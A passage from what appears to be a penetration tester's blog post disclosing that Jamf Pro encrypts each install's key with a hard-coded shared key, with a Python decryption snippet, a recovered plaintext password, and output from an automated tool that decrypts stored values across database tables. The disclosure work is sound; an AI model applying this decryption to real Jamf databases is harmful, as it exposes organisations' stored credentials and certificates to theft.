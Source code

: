 Hmm, at least it's all readable ASCII characters now. What if we use that value as the **`passcode`** and try to decrypt our encrypted password?

```python
if __name__ == "__main__":
    passcode = '36e5m6jodegrkdmmsq4mrt2orf35ktmq0j54o33ej76m3rgd77s'
    #result = encrypt(passcode, 'secret value', 19)

    #print('enc = %s' % result)

    ciphertext = 'Au/IuzGbOQ7oaRMTGNWYqA=='
    reverse = decrypt(passcode, ciphertext, 19)

    print('[+] Decrypted: %s' % reverse)
```

Here goes nothing.

```shell
pentest@cortana:~$ python jamf_decrypt.py
[+] Decrypted: IWantT0Beli3v3!
pentest@cortana:~$
```

Woo! Success! We can now decrypt every encrypted value in the Jamf database! Turns out that the product indeed uses a different encryption key for every install, but it encrypts that key with a hard-coded second encryption key. This key is shared between installs and at least versions 9 and 10, but possibly more!

This means that anyone with read access to a Jamf database or database backup is able to decrypt all data stored in the database.

### Automating

Obviously we don't really want to decrypt every value by hand, so I wrote a small script that automatically connects to a database, decrypts all encrypted values and outputs them to a more readable HTML format, stolen shamelessly from [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump "ldapdomaindump").

```shell
pentest@cortana:~$ python jamf_decrypt.py
[-] Connecting to database
[+] Connected to database "jamf"
[-] Getting session key
[+] Got session key "36e5m6jodegrkdmmsq4mrt2orf35ktmq0j54o33ej76m3rgd77s"
[-] Found encrypted data in table "certificate_authority_settings", decrypting..
[-] Found encrypted data in table "enrollment_settings", decrypting..
[-] Found encrypted data in table "policies", decrypting..
[-] Found encrypted data in table "signing_certificates", decrypting..
pentest@cortana:~$
```

![Decrypted fields][screenshot_04]

The code for this tool and the examples used in this post can be found [here](https://github.com/dmaasland/jamf_decrypt "Jamf decrypt on Github").


[screenshot_01]: /assets/img/casper/screenshot_01.png "Jamf Pro"
[screenshot_02]: /assets/img/casper/screenshot_02.png "New Management Account"
[screenshot_03]: /assets/img/casper/screenshot_03.png "readKeyFromDatabase"
[screenshot_04]: /assets/img/casper/screenshot_04.png "Decrypted fields"
